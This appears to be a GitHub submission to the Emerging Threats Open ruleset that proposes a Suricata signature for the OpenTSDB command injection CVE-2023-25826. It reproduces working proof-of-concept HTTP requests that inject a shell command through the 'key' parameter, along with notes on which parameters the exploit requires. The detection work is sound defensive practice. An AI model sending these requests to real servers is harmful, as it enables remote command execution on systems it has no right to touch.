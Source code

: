 # ET Open Submission
### May 6th, 2024
### OpenTSDB arbitrary commands injection（CVE-2023-25826）


## Resources

1. [https://www.synopsys.com/blogs/software-security/opentsdb.html](https://www.synopsys.com/blogs/software-security/opentsdb.html)
2. [https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826](https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826)

### The exploit:

There must be at least one metric existing on the server for RCE. You can create your own metric as well.

Request sent to create a metric called `sys.cpu.nice`
```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

The exploit is ran against the `key` parameter.
```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

The most important part of this is happening in the http.uri.

`/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json`

After some testing with the code, I have found that every parameter is required but it doesn't seem to matter what some of the contents are.

Findings on each parameter:

- start just needs to exist with a number.
- xrange can be empty or non existant
- The smallest the WXH can be is 100x100 and the largest it can be is 32767x32767
- "style" must satisfy the pattern (linespoint|points|circles|dots)
- baba doesn't seem to need to exist.
- json needs to be there.

Example of a modified and working URI.

`/q?start=5&ylabel=1&y2range=[00:00]&style=linespoint&key=%3Bsystem "touch /tmp/poc1" "&wxh=32767x100&grid=2&json&m=sum:sys.cpu.nice`

I think the meat of this sig might fall in the `key=%3Bsystem%20%22<OS Command>%22%20%22` or `key=;system "<OS Command>" "`

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"OpenTSDB arbitrary commands injection (CVE-2023-25826)"; flow:established,to_server; http.method; content:"GET"; bsize:3; http.uri; content:"|2f|q|3f|"; startswith; content:"m|3d|sum|3a|"; content:"ylabel="; pcre:"/style|3d|(linespoint|points|circles|dots)/R"; content:"start|3d|"; pcre:"/y2range|3d|\[[0-9]{1,2}:[0-9]{1,2}\]/Ri"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_06, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_06;)```

[Job Zip](https://github.com/eatinsundip/Suricata/files/15190887/9dfa93c65d3bbd7d.zip)

[http://dalton.securitymidwest.net/dalton/job/e3b1b130f7c2aeff](http://dalton.securitymidwest.net/dalton/job/e3b1b130f7c2aeff)


## NOTES


